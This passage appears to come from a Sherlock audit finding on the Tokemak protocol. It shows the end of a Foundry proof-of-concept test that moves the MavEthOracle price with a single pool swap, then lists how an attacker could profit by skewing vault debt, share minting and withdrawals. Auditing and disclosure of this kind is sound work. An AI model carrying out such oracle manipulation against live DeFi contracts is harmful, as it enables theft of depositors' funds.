 ```solidity=
    rootOracle.registerMapping(weth, ethOracle);

    (uint256 reserveA, uint256 reserveB) = IPoolPositionDynamicSlim(boostedPosition).getReserves();
    console.log("reserves", reserveA, reserveB);
    uint256 mavPriceBefore = mavOracle.getPriceInEth(boostedPosition);
    console.log("mavOracle price before", mavPriceBefore);

    //swap
    deal(address(swETH), address(this), 1e24);
    address pool = IPoolPositionDynamicSlim(boostedPosition).pool();
    IPool(pool).swap(
        address(this),
        1e18,
        false,
        false,
        0,
        abi.encode(address(swETH))
    );

    (reserveA, reserveB) = IPoolPositionDynamicSlim(boostedPosition).getReserves();
    console.log("reserves", reserveA, reserveB);
    uint256 mavPriceAfter = mavOracle.getPriceInEth(boostedPosition);
    console.log("mavOracle price after", mavPriceAfter);
    
    require(mavPriceBefore != mavPriceAfter);
  }
}
```

## Impact
There are multiple impacts that an attacker can exploit by manipulating the price of MavEthOracle:

* Decreasing the oracle price to lower the totalDebt of LMPVault, in order to receive more LMPVault shares.
* Increasing the oracle price to raise the totalDebt of LMPVault, in order to receive more withdrawn tokens.
* Manipulating the results of the Stats contracts to cause miscalculations for the protocol.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/oracles/providers/MavEthOracle.sol#L59-L72

## Tool used
Manual Review
Foundry

## Recommendation
Use another calculation for Maverick oracle
